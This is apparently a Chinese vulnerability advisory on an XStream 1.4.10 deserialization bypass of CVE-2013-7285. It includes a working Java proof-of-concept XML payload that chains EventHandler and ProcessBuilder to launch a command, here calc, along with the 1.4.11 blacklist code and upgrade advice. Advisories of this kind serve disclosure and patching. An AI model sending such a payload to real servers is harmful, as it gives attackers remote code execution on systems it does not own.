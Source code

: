 ## 前言  

XStream是常用的Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。

## 漏洞简介  

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

## 漏洞危害  

当使用Xstream 1.4.10版本且未对安全框架进行初始化时，攻击者即可通过精心构造的请求包在使用Xstream的服务器上进行远程代码执行。

## 影响范围  

### 产品

> Xstream

### 版本

> Xstream1.4.10版本

### 组件

> Xstream

## 漏洞复现

### PoC

```java
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;
import java.io.IOException;
import java.util.Set;
import java.util.TreeSet;

/**
 * Created by cfchi on 2019/7/26.
 */
public class Main {
    public static String expGen(){
        XStream xstream = new XStream();
        Set<Comparable> set = new TreeSet<Comparable>();
        set.add("foo");
        set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
        String payload = xstream.toXML(set);
        System.out.println(payload);
        return payload;
    }
    public static void main(String[] args) throws IOException {
        expGen();
        XStream xStream = new XStream();
        String payload = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "    <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd.exe</string>\n" +
                "                    <string>/c</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "     <action>start</action>"+
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>\n";
       xStream.fromXML(payload);
    }
}

```

### 1.4.7版本白名单

![1.4.7版本白名单](img/13.png)

### 1.4.10版本，黑名单未开启

![1.4.10版本，黑名单未开启](img/14.png)

### 1.4.11版本，黑名单开启

> blacklist

```java
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

    public boolean canConvert(Class type) {
        return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
    }

    public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
        throw new ConversionException("Security alert. Marshalling rejected.");
    }

    public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
        throw new ConversionException("Security alert. Unmarshalling rejected.");
    }
}
```

![1.4.11版本，黑名单开启](img/15.png)

## 修复方案
> 升级Xstream到1.4.11版本

## 参考
https://mp.weixin.qq.com/s/bght8tIwtNqnaidVZjPdSw  
http://x-stream.github.io/changes.html#1.4.11
> 原文：http://www.polaris-lab.com/index.php/archives/658/
